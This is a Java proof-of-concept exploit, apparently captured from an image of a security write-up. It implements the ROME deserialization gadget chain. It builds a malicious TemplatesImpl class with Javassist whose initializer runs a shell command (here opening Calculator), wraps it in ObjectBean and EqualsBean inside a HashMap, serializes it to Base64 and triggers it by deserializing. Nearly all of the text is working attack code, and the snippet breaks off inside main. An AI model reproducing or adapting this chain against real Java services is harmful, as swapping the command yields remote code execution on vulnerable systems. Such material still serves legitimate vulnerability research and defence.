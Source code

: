 ```java
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void exp() throws Exception {

        // 生成恶意的 bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("RomeExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // 实例化类并设置属性
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // 封装一个无害类并放入 Map 中
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "h3rmesk1t"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "h3");

        // put 到 Map 之后再反射写进去, 避免触发漏洞
        ObjectBean expObjectBean = new ObjectBean(Templates.class, templatesImpl);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));

        // 生成 exp
        String exp = serialize(hashMap);
        System.out.println(exp);

        // 触发 exp
        unserialize(exp);
    }

    public static void main(String[] args) {
        try {
```